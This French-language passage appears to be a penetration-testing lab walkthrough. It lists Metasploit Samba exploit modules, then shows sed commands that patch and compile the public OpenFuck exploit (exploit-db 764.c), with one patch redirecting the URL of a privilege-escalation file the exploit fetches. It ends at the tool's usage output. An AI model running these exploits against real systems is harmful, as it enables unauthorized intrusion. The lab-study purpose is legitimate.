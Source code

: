 ```bash
[!] Module database cache not built yet, using slow search

Matching Modules
================

   Name                                     Disclosure Date  Rank       Description
   ----                                     ---------------  ----       -----------
   exploit/linux/samba/chain_reply          2010-06-16       good       Samba chain_reply Memory Corruption (Linux x86)
   exploit/linux/samba/is_known_pipename    2017-03-24       excellent  Samba is_known_pipename() Arbitrary Module Load
   exploit/linux/samba/lsa_transnames_heap  2007-05-14       good       Samba lsa_io_trans_names Heap Overflow
   exploit/linux/samba/setinfopolicy_heap   2012-04-10       normal     Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   exploit/linux/samba/trans2open           2003-04-07       great      Samba trans2open Overflow (Linux x86)
   exploit/multi/samba/nttrans              2003-04-07       average    Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   post/linux/gather/enum_configs                            normal     Linux Gather Configurations

```

Deux exploit semble intéressant, trans2open et nttrans.
Après quelques recherches j'ai finalement découvert que la version de samba de notre cible est vulnerable à trans2open.

## Exploitation avec Openfuck 

On choisiras ici l'exploit dans sa version 2 car il est un peut ancien et plus forcément facile à compiler :

>Note : Pour modifier l'exploit, rendez-vous à cette adresse http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/

Voici un court script pour le faire compiler:

```bash
cp /usr/share/exploitdb/exploits/unix/remote/764.c ./exploit.c
sed -i "s/unsigned\ char\ \*p\,\ \*end\;/const\ unsigned\ char\ \*p\,\ \*end\;/g" exploit.c
sed -i -e '20i#include <openssl/rc4.h>\' exploit.c
sed -i -e '20i#include <openssl/md5.h>\' exploit.c
sed -i 's/http\:\/\/packetstormsecurity\.nl\/0304\-exploits\/ptrace\-kmod\.c/http\:\/\/dl\.packetstormsecurity\.net\/0304\-exploits\/ptrace\-kmod\.c/g' exploit.c
gcc -o OpenFuck exploit.c -lcrypto
```

Tentons d'exploiter notre cible avec cet exploit. 
On lance l'aide : 
```bash
root@kali:~# ./OpenFuck 

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./OpenFuck target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
```